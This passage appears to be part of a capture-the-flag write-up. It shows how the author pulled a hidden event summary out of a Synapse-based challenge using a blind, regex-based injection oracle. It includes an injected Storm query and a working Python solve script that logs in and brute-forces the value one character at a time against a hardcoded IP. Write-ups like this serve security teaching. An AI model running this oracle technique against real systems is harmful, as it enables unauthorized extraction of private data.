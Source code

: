 ## Exfiltrating the event summary

The goal now is to get the value of `meta:event:summary`, and that's where things got tough for me.

### My inefficient solution

I immediately got the idea of exfiltrating the event summary character by character, using the same method you would use for a blind SQL injection. However, an operator that only matches part of the string similar to `LIKE` or `SUBSTR` in SQL is needed, and after reading through the Synapse documentation, I found and used the [filter by regex](https://synapse.docs.vertex.link/en/latest/synapse/userguides/storm_ref_filter.html#filter-by-regular-expression) operator `~=`.

For example, the following lookup will return "sus" only if the event summary begins with the character `a`, and we will try this for every ASCII printable character to determine the first character, then the second one... until we get the full value.

```
00000* | meta:event:summary ~= "^a" #aaa
```

Here's the solve script I ended up using. Note that since the summary is very long, the 128 character limit will be reached a few times and you will need to truncate the summary and restart the script if you decide to try it out entirely. 

```python
import requests
import string

s = requests.Session()
base_url = 'http://157.230.188.90'

r = s.post(f'{base_url}/login', {
    'username': 'a',
    'password': 'a'
})

summary = ''
alphabet =  [' ', '\\n'] + ['\\' + c for c in ',":=$()[]{}'] + list(string.ascii_letters + string.digits) + ['\\S', '\\s']

while True:

    for guess in alphabet:

        query = f'00000* | meta:event:summary ~= "^{summary + guess}" #'.ljust(128, 'a')

        r = s.post(f'{base_url}/lookup', {
            'query': query
        })
        assert('boi is safe' in r.text or 'sus indicator' in r.text)

        if 'sus indicator' in r.text:
            summary += guess
            print(summary)
            break
```
